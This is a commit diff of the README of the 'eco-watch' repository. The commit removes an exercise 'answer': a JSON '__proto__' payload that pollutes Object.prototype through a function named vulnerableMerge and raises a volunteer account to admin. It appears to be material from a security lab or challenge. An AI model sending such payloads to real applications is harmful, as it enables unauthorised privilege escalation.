

Before and after one commit to rhburt/eco-watch, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update README.md
Remove answer from README.md

````diff
--- a/README.md
+++ b/README.md
@@ -27,18 +27,6 @@ function vulnerableMerge(target, source) {
     } else {
       target[key] = source[key];
     }
-  }
-}
-```
-
-Sending the following payload poisons `Object.prototype` and escalates a `volunteer` account to admin:
-
-```json
-{
-  "bio": "Saving the planet",
-  "__proto__": {
-    "canManageUsers": true,
-    "canDeleteReports": true
   }
 }
 ```
````
